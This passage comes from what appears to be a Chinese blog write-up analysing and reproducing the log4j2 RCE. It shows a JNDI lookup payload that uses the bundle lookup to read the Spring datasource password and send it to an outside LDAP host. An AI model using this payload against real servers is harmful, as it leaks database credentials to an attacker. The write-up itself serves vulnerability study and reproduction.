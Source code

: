 ![image-20220123221821111](log4j2-RCE分析与复现/image-20220123221821111.png)

### **Bundle外带**

方法来自[浅蓝师傅博客](https://b1ue.cn/archives/513.html) ，还可以使用Bundle获取特殊变量值并外带，spring环境下可以尝试获取

```java
${jndi:ldap://jndi.fuzz.red:5/ku8r/${bundle:application:spring.datasource.password}}
```

![image-20220302220853565](log4j2-RCE分析与复现/image-20220302220853565.png)
